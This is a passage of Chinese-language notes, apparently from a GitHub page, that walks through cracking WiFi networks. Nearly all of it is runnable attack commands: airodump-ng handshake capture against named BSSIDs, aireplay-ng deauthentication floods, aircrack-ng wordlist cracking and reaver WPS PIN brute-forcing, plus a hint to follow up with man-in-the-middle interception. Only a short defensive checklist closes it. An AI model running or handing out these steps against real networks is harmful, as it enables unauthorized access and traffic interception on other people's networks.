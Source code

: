 	- 解锁全部: rfkill unblock all
- 2.搜索无线:
	- start后发现monitor mode在mon9:
		- sudo airodump-ng mon9
		- 显示很慢..
	- 关闭nm管理:
		- sudo service network-manager stop # 停止nm服务
		- 或者: sudo /etc/init.d/network-manager stop
		- 取消开机启动: chkconfig network-manager off
	- 关闭wpa_supplicant:(不需要)
		- wpa_supplicant用来对数据流进行加密, 在网卡up的时候启动;
- 3.抓取握手包：
	- sudo airodump-ng -c 6 --bssid C8:3A:35:30:C8:12 -w ~/yuyu mon9
	- -c表示channel，-w表示保存的路径和前缀名	
- 4.强行设备重连：
	- 新建一个终端
	- aireplay-ng -0 2 -a C8:3A:35:30:3E:C8 -c B8:E8:45:00:CC mon9
	- -0表示发起deauthentication泛洪攻击，2表示断开次数，-a是BSSID，-c是设备
	- 若成功，则上一步会捕捉到握手包，显示WPA handshake:
	- 断开监控：airmon-ng stop mon9
- 5.破解：
	- aircrack-ng -a2 -b C8:3A:35:30:3E:C8 -w /usr/share/wordlists/rock.txt ~/yuyu01.cap
	- yuyu01.cap就是上一步捕捉到的握手包yuyu01.cap
	- 后记可以使用GPU加速破解
- WPS破解pin:
	- pin码:
		- 8位纯数字组成的识别码:
			- 1234 + 567 + 0
			- 第一部分和第二部分没关联
			- 最后的0是对第二部分的校验码
		- 破解:	
			- 先对单独的第一部分pin匹配, 一共0000-9999
			- 然后确定第二部分, 一共000-999
			- 最后一位自动得出
			- 一共11000种情况
	- 扫描路由器是否开启WPS功能:
		- wash -i wlan0
		- WPS Locked为no的都可以破解
	- 使用reaver破解:
		- reaver -i mon0 -b mac -S -vv
		- -b目标mac地址, -S最小的DH key, -vv显示警告
		- reaver默认从0000开始, 加上-p 9000就是从9000开始
		- pin过快会pin死路由器, 加上-d5 -t5延迟5秒
- 升级hacker:
	- 获取wifi密码后, 可以进一步使用kali下的中间人攻击, 从而进行流量分析
- 总结:
	- wifi密码不要和路由器的管理密码一样
	- 关闭路由器的WPS功能
	- 使用路由器的白名单功能
	- 不要连接公共wifi
